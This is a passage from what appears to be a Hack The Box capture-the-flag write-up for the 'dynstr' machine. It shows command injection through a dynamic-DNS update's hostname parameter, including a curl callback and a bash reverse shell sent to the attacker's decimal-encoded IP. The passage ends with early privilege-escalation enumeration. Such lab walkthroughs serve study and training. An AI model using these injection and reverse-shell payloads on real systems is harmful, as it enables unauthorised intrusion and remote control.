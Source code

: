 For some reaosn, it's having trouble displaying our IP address. It seems limited to 8 characters, so let's try to change our IP address to decimal mode. After some testing involving the different subdomains, we can find one that works:

```
$ curl -G --data-urlencode 'hostname=$(curl 168431117/rce).no-ip.htb' http://dynadns:sndanyd@dyna.htb/nic/update 
911 [nsupdate failed]
```

<figure><img src="../../../.gitbook/assets/image (600).png" alt=""><figcaption></figcaption></figure>

```
$ curl -G --data-urlencode 'hostname=$(bash -c "bash -i >& /dev/tcp/168431117/4444 0>&1").no-ip.htb' http://dynadns:sndanyd@dyna.htb/nic/updat
```

<figure><img src="../../../.gitbook/assets/image (1027).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

We can't grab the user flag yet. There are 2 other users on the machine:

```
www-data@dynstr:/home$ ls -la
total 16
drwxr-xr-x  4 root    root    4096 Mar 15  2021 .
drwxr-xr-x 18 root    root    4096 May 25  2021 ..
drwxr-xr-x  5 bindmgr bindmgr 4096 Mar 15  2021 bindmgr
drwxr-xr-x  3 dyna    dyna    4096 Mar 18  2021 dyna
```

### Bindmgr Shell

Within the `bindmgr` directory, there is a support case folder:

```
www-data@dynstr:/home/bindmgr$ ls
support-case-C62796521  user.txt
```
